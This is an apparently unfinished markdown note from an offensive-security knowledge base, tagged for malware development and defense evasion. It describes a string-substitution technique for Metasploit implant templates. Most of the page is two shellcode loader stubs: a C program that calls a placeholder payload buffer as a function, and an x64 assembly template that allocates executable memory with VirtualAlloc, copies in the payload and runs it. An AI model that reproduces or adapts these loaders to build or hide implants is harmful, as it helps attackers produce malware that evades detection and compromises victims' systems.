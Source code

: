 # String Substitution

Search Tag(s): #helpers #malware-development #defense-evasion

TODO: Fill this info

There is a limitation with this method. It uses a few supported payload formats (refer to the [[Metasploit Implant Templates References|table reference]]).

TODO: Write steps to compile EXE and copy in the templates file destination

## 01 - EXE

C template source code

```c
#include <stdio.h>

#define SCSIZE 4096
char payload[SCSIZE] = "PAYLOAD:";

char comment[512] = "";

int main(int argc, char **argv) {
	(*(void (*)()) payload)();
	return(0);
}
```

Assembly template

```nasm
; Author: Stephen Fewer (stephen_fewer[at]harmonysecurity[dot]com)
; Architecture: x64
;
; Assemble and link with the following command:
; "C:\Program Files\Microsoft Visual Studio 9.0\VC\bin\x86_amd64\ml64" template_x64_windows.asm /link /subsystem:windows /defaultlib:"C:\Program Files\Microsoft SDKs\Windows\v6.0A\Lib\x64\kernel32.lib" /entry:main 

extrn ExitProcess : proc
extrn VirtualAlloc : proc

.code

	main proc 
		sub rsp, 40        ;
		mov r9, 40h        ; 
		mov r8, 3000h      ; 
		mov rdx, 4096      ; 
		xor rcx, rcx       ; 
		call VirtualAlloc  ; lpPayload = VirtualAlloc( NULL, 4096, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE );
		mov rcx, 4096      ;
		mov rsi, payload   ;
		mov rdi, rax       ;
		rep movsb          ; memcpy( lpPayload, payload, 4096 );
		call rax           ; lpPayload();
		xor rcx, rcx       ;
		call ExitProcess   ; ExitProcess( 0 );
	main endp
	
	payload proc
		A byte 'PAYLOAD:'
		B db 4096-8 dup ( 0 )
```